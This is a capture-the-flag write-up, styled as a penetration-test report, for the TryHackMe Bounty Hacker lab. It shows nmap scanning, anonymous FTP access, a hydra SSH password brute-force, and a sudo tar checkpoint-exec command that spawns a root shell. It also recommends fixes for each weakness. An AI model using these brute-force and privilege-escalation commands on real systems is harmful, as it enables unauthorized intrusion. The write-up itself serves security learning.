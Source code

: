 # Vulnerability Assessment and Penetration Testing (VAPT) Report  
## Bounty Hacker (TryHackMe)  

**Prepared by:** Anonymous  
**Date:** August 08, 2025  
**Difficulty:** Easy  
**Platform:** [TryHackMe](https://tryhackme.com)  
**Category:** Privilege Escalation / Web Exploitation  

---

## 📋 Executive Summary  

This report details my penetration test of the **Bounty Hacker** machine on TryHackMe (IP: `<ip_address>`). I identified security weaknesses, gained user access, and escalated to root to capture two flags (secret codes).  

The main issues were:  
- Open FTP server allowing anonymous access.  
- Exposed files with a username and password list.  
- Weak SSH credentials.  
- Misconfigured command allowing full system control.  

This beginner-friendly report explains the process simply, highlights vulnerabilities, and suggests fixes to secure the system.  

---

## 🎯 Scope  

I tested the Bounty Hacker machine to find security flaws, gain access, and capture the **user** and **root** flags. This simulated a real-world hack to learn how to find and fix vulnerabilities.  

---

## 🚨 Key Vulnerabilities  

| Vulnerability              | Impact                                    | Fix                                          |
|----------------------------|-------------------------------------------|----------------------------------------------|
| Anonymous FTP Access       | Exposed sensitive files to anyone         | Disable anonymous FTP or restrict access     |
| Exposed Password Files     | Revealed username and passwords for attacks | Secure files with permissions or encryption |
| Weak SSH Credentials       | Allowed unauthorized login as user `lin`  | Use strong passwords and enable MFA          |
| Misconfigured Sudo (`tar`) | Enabled full system control (root access) | Restrict sudo to safe, specific commands     |

---

## 🛠️ Exploitation Steps  

### 1. Scanning the System (Reconnaissance)  
**Time:** 08:30  
- **Command:**  
  ```bash
  nmap -sV <ip_address>
  ```

* **Findings:**  
  * Port 21: FTP (vsftpd 3.0.3) – file sharing  
  * Port 22: SSH (OpenSSH 7.2p2) – remote login  
  * Port 80: Apache 2.4.18 – web server  
  * Port 990: Closed (FTPS)  
* **Why It Matters:** Identified entry points (FTP, SSH) to focus my attack.  

---

### 2. Exploring FTP (File Access)  
**Time:** 08:35  
* **Command:**  
  ```bash
  ftp <ip_address>
  ```  
* **Actions:** Listed files with `ls -la`. Found:  
  * `task.txt`: Contained username `lin`  
  * `locks.txt`: List of passwords  
* **How I Read Them:** Used `less task.txt` and `less locks.txt` after `cat` failed.  
* **Why It Matters:** These files gave me a username and passwords to try for SSH.  

---

### 3. Breaking into SSH (User Access)  
**Time:** 08:45  
* **Command:**  
  ```bash
  hydra -l lin -P <file_path_to_locks> <ip_address> ssh
  ```  
* **Findings:** Found the correct password for `lin`.  
* **Next Steps:** Logged in via SSH and found `user.txt` with the user flag.  
  ```bash
  ssh lin@<ip_address>
  cat user.txt
  ```  
* **Why It Matters:** Gained user access and captured the first flag.  

---

### 4. Becoming Root (Privilege Escalation)  
**Time:** 09:00  
* **Command:**  
  ```bash
  sudo -l
  ```  
* **Findings:** `lin` could run `tar` as root.  

**Time:** 09:05  
* **Command:**  
  ```bash
  sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  ```  
* **Result:** Got a root shell (full system control).  

**Time:** 09:10  
* **Command:**  
  ```bash
  cat /root/root.txt
  ```  
* **Why It Matters:** Captured the root flag and took over the system.  

---

## 🧠 Lessons Learned  

* **Lock FTP:** Prevent anonymous access and limit file visibility.  
* **Hide Secrets:** Don’t leave usernames or passwords in open files.  
* **Secure SSH:** Use strong passwords and add multi-factor authentication (MFA).  
* **Fix Sudo:** Limit what commands users can run as root.  
* **Scan Regularly:** Use `nmap` to find and fix open services before attackers do.  

---

## 💻 Skills Demonstrated  

* Service Enumeration – `nmap`, `ftp`  
* Password Brute-Forcing – `hydra`  
* SSH Exploitation – gained user access with cracked credentials  
* Privilege Escalation – misconfigured `tar` command  

---

## 🛠️ Tools and Files Used  

**Tools:**  
* `nmap` – Scanned for open services  
* `ftp` – Accessed file server  
* `hydra` – Brute-forced SSH passwords  
* `ssh` – Logged into the system  
* `sudo` – Checked and exploited permissions  
* `tar` – Used for privilege escalation  

**Files:**  
* `task.txt`, `locks.txt`, `user.txt`, `root.txt`, `<file_path_to_locks>`  

**Environment:**  
* TryHackMe (Ubuntu Linux), Kali Linux  

---

## 🌟 Final Thoughts  

By exploiting these vulnerabilities, I showed how an attacker could take full control of a system, from accessing files to gaining root privileges. These issues—open FTP, exposed passwords, weak logins, and risky sudo settings—are common in real-world systems. Fixing them is critical to protect servers from hackers. This exercise improved my skills in finding and securing vulnerabilities, preparing me to protect real-world systems better.  
